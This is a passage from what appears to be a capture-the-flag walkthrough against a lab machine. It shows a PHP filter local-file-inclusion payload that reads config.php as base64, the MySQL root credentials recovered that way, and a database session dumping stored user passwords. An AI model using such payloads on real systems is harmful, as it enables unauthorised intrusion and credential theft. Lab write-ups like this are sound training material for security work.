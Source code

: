 However, when I tried to read that file, all I got was a blank page. I've noticed that the URLs for the pages look like this: http://192.168.164.129/?page=login for the login page and http://192.168.164.129/?page=upload for the upload page. I tried some directory traversal and file inclusion techniques, thinking that this might be the way of reading the config.php file, but had no luck. However, as I was searching for a way on the internet, I came across this article on a [LFI method that uses PHP filters](https://diablohorn.com/2010/01/16/interesting-local-file-inclusion-method/). The below command allows reading the source of PHP files by using the filter functionality to base64 encode the contents of the file before reading it: 

<code>url?page=php://filter/convert.base64-encode/resource=config</code>

This returned a base64 string that when decoded, gave me the MySQL credentials:

``` 
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Now we can connect to that database:

``` 
mysql -u root -h 192.168.217.143
ERROR 1045 (28000): Access denied for user 'root'@'192.168.217.132' (using password: NO)
root@kali:~# mysql -u root -p -h 192.168.217.143
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 41
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> use Users
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]>  
```

Let's see what we have here:

``` 
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.05 sec)
```
